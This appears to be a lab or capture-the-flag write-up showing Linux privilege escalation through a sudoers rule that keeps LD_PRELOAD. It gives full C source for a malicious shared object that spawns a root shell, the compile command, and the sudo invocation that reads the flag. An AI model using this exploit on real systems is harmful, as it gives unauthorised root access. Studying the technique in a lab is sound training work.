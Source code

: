 So you've got a foothold on a regular user account on a Linux box? You've tried to escalate privileges to root but nothing seems to work? Remember the order in which programs, scripts and libraries load dictates what executes!

Check sudoers file

```
student@attackdefense:~$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /usr/sbin/apache2
```

We see that:

- student user can run apache2 as root without password
- `env_keep+=LD_PRELOAD` environment can be set

We leverage this by creating a program:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

And compile the program

```
student@attackdefense:~$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
student@attackdefense:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function '_init':
shell.c:6:1: warning: implicit declaration of function 'setgid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
 setgid(0);
 ^~~~~~
 setenv
shell.c:7:1: warning: implicit declaration of function 'setuid'; did you mean 'setenv'? [-Wimplicit-function-declaration]
 setuid(0);
 ^~~~~~
 setenv
```

Use sudo to change value of `LD_PRELOAD` variable to path of shell.so and call the apache2 program - We get execution of hte code in the `_init()` function and launch an elevated shell

```
student@attackdefense:~$ sudo LD_PRELOAD=/home/student/shell.so apache2
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag
368b219937989a57d0c1191ac697cc83
```
